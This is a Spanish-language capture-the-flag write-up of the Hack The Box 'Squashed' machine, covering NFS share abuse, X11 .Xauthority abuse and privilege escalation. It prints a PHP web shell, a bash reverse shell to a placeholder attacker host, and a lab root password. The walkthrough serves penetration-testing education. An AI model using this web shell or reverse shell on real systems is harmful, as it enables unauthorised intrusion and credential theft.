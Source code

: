 ```yaml
---
title: Squashed - Hack The Box
description: >-
  En esta máquina se toca estos temas: Abusar de los propietarios asignados a los recursos compartidos de NFS mediante la creación de nuevos usuarios en el sistema  (Obtener acceso a la raíz web). Creación de un shell web para obtener acceso al sistema. Abuso del archivo .Xauthority (Pentesting X11). Tomar una captura de pantalla de la pantalla de otro usuario.
author: Mariano Alfonso
date: 2023-04-18
categories: [HackTheBox, Easy, CFTs]
tags: [Privilege Escalation, Pentesting, Linux, NFS mount]
image:
  path: /assets/img/HTB/writeup-squashed/Squashed.png
  alt: Máquina Squashed de la Plataforma Hack The Box.
---
```


---

## Introducción 📄
El presente Write Up explica los pasos para resolver la máquina  <span style="color:green"> **Squashed** </span> de la plataforma [HackTheBox](https://hackthebox.com).

## Reconocimiento de Puertos 🔍

Como siempre antes de escanear los puertos con **Nmap** le hacemos un <span style="color:red"> ping </span> a la maquina victima para ver si esta viva y nos responde.

![](/assets/img/HTB/writeup-squashed/TrazaICMP.png) _**Figure 1**: Traza ICMP._

En este caso nos responde y me arroja una **TTL** de 63, por lo que acercarse a 64, me enfrento a una maquina <span style="color:green"> Linux</span>.

<div style="display: flex; justify-content: center; width: 100%;">
  <table style="width: 100%; table-layout: fixed;">
    <caption style="caption-side: bottom; text-align: center; color: white;">
      <span style="font-weight: bold; color: white;">Table 1</span>: Información sobre el TTL y Sistema Operativo.
    </caption>
    <tr>
      <th style="text-align: center;">TTL</th>
      <th style="text-align: center;">Sistema Operativo</th>
    </tr>
    <tr>
      <td style="text-align: center; word-wrap: break-word;">64</td>
      <td style="text-align: center; word-wrap: break-word;">Linux</td>
    </tr>
  </table>
</div>
 
Una vez que ya me comunique con la maquina y extraje el dato que es se trata de una maquina Linux, procedo a desplegar la herramienta Nmap.

```bash
# Primer con nmap  para sacar los puertos abiertos de la máquina
--------------------------------------------------------------
nmap -p- -n --open -sV --min-rate 5000 -vvv -n -Pn 10.10.11.191 
```

![](/assets/img/HTB/writeup-squashed/nmap1.png) _**Figure 2**: Primer Escaneo con Nmap._


```bash
# Segundo escaneo con los scripts default de nmap y tambien sacamos  la Versión y Servicio que tiran los puertos escaneados anteriormente 
--------------------------------------------------------------
nmap -sC -sV -p22,80,111,2049,39033 10.10.11.191
```

![](/assets/img/HTB/writeup-squashed/nmap2.png) _**Figure 3**: Segundo Escaneo con Nmap._

## Puerto 2049 

Por lo que veo, obtengo esta información y me doy cuenta que hay petisiones **nfs** en el **Puerto 2049**, al ser mi primera maquina de <span style="color:green"> HackTheBox </span>, acudo a <span style="color:red"> HackTricks </span>
para saber sobre NFS.

- [Recurso extraido de HackTricks](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting)

```bash
# Primero hay que avriguar  que carpetas tiene el servidor disponibles para montar, lo averiguamos con este comando
--------------------------------------------------------------------------------
showmount -e <IP>
```

![](/assets/img/HTB/writeup-squashed/showmount.png) _**Figure 4**: Directorios Obtenidos._

Obtengo estos dos directorios:

<div style="display: flex; justify-content: center; width: 100%;">
  <table style="width: 100%; table-layout: fixed;">
    <caption style="caption-side: bottom; text-align: center; color: white;">
      <span style="font-weight: bold; color: white;">Table 2</span>: Rutas Obtenidas.
    </caption>
    <tr>
      <th style="text-align: center;" colspan="2">Rutas</th>
    </tr>
    <tr>
      <td style="text-align: center; word-wrap: break-word;">/home/ross</td>
      <td style="text-align: center; word-wrap: break-word;">/var/www/html</td>
    </tr>
  </table>
</div>

Y para montar estos dos directorios, me creo dos directorios llamados **/mnt/ross** y **/mnt/web_server** en el directorio **/mnt** y luego los monto.

```bash
# Creo los directorios
----------------------
sudo mkdir /mnt/ross
sudo mkdir /mnt/web_server
# Monto los directorios en cada carpeta
sudo mount 10.10.11.191:/home/ross /mnt/ross
sudo mount 10.10.11.191:/var/www/html /mnt/web_server
```

Una vez que hecho esto, listo los directorios a ver que encuentro...

![](/assets/img/HTB/writeup-squashed/listadodedirectorios.png) _**Figure 5**: Listado de Directorios._

Veo que existe un archivo  <span style="color:red">Passwords.kdbx</span> que  básicamente su extension <span style="color:red">.kdbx</span> indica que es la base de datos que usa keepass para almacenar las contraseñas, tambien se ve que en directorio **./we_server** no despliega nada, voy a ver si puedo acceder a el...

![](/assets/img/HTB/writeup-squashed/cdwebserver.png) _**Figure 6**: Directorio we_server_

Ok no tengo acceso a el, voy a ver que usuario tiene acceso el directorio.

![](/assets/img/HTB/writeup-squashed/usuarioquetieneprivilegio.png) _**Figure 7**: Usuario con bajos privilegios._

Ok pensando un poco podria burlar el **user1** creando uno en mi maquina. 

![](/assets/img/HTB/writeup-squashed/directorioswebserver.png) _**Figure 8**: Listado del Directorio web_server_

Como estoy en el directorio del servidor web y veo el archivo **index.html** , probare intentar cargar un archivo .php para poder poder ejecutar cualquier comando en la **URL**.

```php
<?php   
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
{: file='cmd.php'}

Una ves ejecutado este script puedo ejecutar cualquier comando en la URL.

![](/assets/img/HTB/writeup-squashed/cmd=ls-l.png) _**Figure 9**: Ejecución de Comandos en la URL._

Entonces puedo crear una Reverse Shell, pero antes me pongo en escucha con el puerto 1337 (en mi caso)

```bash
# Reverse Shell, encodear co el signo % al signo &
----------------------
bash -c "bash -i >%26 /dev/tcp/<IP ATACANTE>/1337 0>%261"
```

![](/assets/img/HTB/writeup-squashed/reverseshell.png) _**Figure 10**: Reverse Shell Obtenida._

Antes de continuar actualizo la tty. 

```bash
> script /dev/null -c bash
--------------------------
> Ctrl+z
--------------------------
> stty raw -echo; fg 
        reset xterm
--------------------------
export TERM=xterm
export SHELL=bash
```

## Escalada de Privilegios .Xauthority ☣️

Para <span style="color:red">conseguir la escalada de privilegios sigo estos pasos</span>:

* Primero me creo otro usuario para tener acceso al archivo .Xauthority.

* Pero no tengo acceso al archivo. 

![](/assets/img/HTB/writeup-squashed/usuarioquetieneprivilegio.png) _**Figure 11**: Usuario Sin Privilegios._

* Monto un servidor http con python3 en el puerto 8080 en el usuario que me cree hace un momento.

```bash
# Servidor python3 
------------------
python3 -m http.server 8080
```

* Una vez ya descargado el archivo **.Xauthority**, con ayuda HackTricks busco el comando para poder leer dicho archivo.

- [Recurso extraido de HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11)

No lo puedo leer, entonces saco un screenshot a la seccion keepas abierta del usuario. 

```bash
# Ejecuto el comando sacado de HakcTricks y lo guardo como archivo screenshot.xwd
------------------
xwd -root -screen -silent -display :0 > screenshot.xwd
```

![](/assets/img/HTB/writeup-squashed/Screenshotxwd.png) _**Figure 12**: Archivo Guardado en Formato .xwd_

Lo siguiente que hago es migrar a mi usuario de Kali para ponerme en escucha en el puerto 443, haci enviarme el archivo screenshot.xwd, dicho archivo se encuentra en el usuario **alex**.

```bash
# Covierto el archivo .xwd a .png (esto comando se encuentra en HackTricks, el enlace anteriormente mencionado)
------------------
convert screenshot.xwd screenshot.png
```

![](/assets/img/HTB/writeup-squashed/convert.png) _**Figure 13**: Convirtiendo Archivo .xwd a .png_

Abro el screenshot y listo ahi se ve la **password**.

![](/assets/img/HTB/writeup-squashed/screenshot.png) _**Figure 14**: Screenshot._

Por ultimo me dirijo al usuario alex y con las **password** <span style="color:red">cah$mei7rai9A</span> para comvertirme en usuario **root**.

![](/assets/img/HTB/writeup-squashed/rootalex.png) _**Figure 15**: Flag del User root._

Ya tenemos acceso a la <span style="color:red"> **Flag**.</span>
